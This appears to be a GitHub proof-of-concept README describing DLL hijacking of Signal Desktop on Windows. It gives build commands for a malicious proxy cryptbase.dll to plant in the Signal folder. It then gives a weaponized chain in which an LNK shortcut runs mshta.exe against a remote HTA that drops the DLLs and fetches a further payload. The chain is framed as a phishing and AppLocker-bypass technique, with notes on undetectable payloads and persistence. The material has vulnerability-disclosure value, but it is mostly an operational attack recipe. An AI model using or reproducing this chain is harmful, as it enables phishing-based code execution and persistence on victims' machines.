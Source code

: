 # Summary 
Multiple instances of DLL planting exist, and a threat actor can plant DLLs that don't exist but are referenced by the application. 

# Steps to Replicate
1. First, create a malicious DLL. Signal references many non-existent DLLs, but several of the DLLs are native to Windows. For this example, I used `cryptbase.dll`. You can use [this repository](https://github.com/tothi/dll-hijack-by-proxying) to build the DLL, but I'll simplify the steps for you:
   * Clone the repo.
   * Modify the `cryptbase.c` file in this repo as you see fit - note that this is nothing more than the payload.
   * Copy `C:\Windows\System32\cryptbase.dll` into the `dll-hijack-by-proxying` directory as `cryptbase_original.dll`.
   * Create the exports using the `gen_def.py` script in the `dll-hijack-by-proxying` directory.

    ```
    python3 gen_def.py cryptbase_orig.dll > cryptbase.def
    ```
   
   * Run the following command if you're compiling for x64 Windows:

    ```
    x86_64-w64-mingw32-gcc -shared -o cryptbase.dll cryptbase.c cryptbase.def -s
    ```

2. Now you've got your malicious DLL. Copy `cryptbase.dll` and `cryptbase_orig.dll` into the `%LocalAppData\Programs\signal-desktop` folder.
3. Run Signal, and the code will execute. Here's a cute calculator PoC example:
   
    ![Calculator PoC](https://github.com/johnjhacking/Signal-DLL-Hijacking/blob/main/1.png?raw=true)

# Turning up the Heat
If you're like me, simply popping the calculator isn't enough. Let's chain this as an LNK -> HTA -> Your Payload. You might be wondering what the purpose of building this type of chain serves. Simple: you can chain this as a bypass against something like AppLocker or a default deny tool, leveraging the trust of the product as a safe messenger. In addition, an LNK pretext will allow you to get the user to download the DLLs into the appropriate folder.

1. Create an LNK shortcut, and change the target to the following:

    ```
    C:\Windows\System32\mshta.exe https://yourdomain/poc.hta
    ```

    It should look something like this:
   
    ![LNK PoC](https://github.com/johnjhacking/Signal-DLL-Hijacking/blob/main/2.png?raw=true)

2. Host your `cryptbase.dll` and `cryptbase_orig.dll` files.
3. Modify the code in the `poc.hta` file within this GitHub repo to utilize the URLs of your hosted DLL files.
4. Host `poc.hta` on your domain.
5. Run the LNK shortcut and watch as the DLL files are dropped into the `%LocalAppData\Programs\signal-desktop` folder.
6. Now, when the victim runs Signal, your malicious DLL will run. Phishing ftw.
7. You can use whatever you want, but for a quick test, I hosted an HTA server to see if my HTA would drop the DLLs that execute an HTA, mostly for the nonsense of the chain, so in my case, the chain was LNK -> HTA drops DLLs -> User runs Signal -> DLL executes remote HTA. In a live scenario, I'd swap the HTA payload out with a FUD DLL payload and add persistence, depending on the EDR i'm up against.
   
    ![RCE Proof](https://github.com/johnjhacking/Signal-DLL-Hijacking/blob/main/3.png?raw=true)
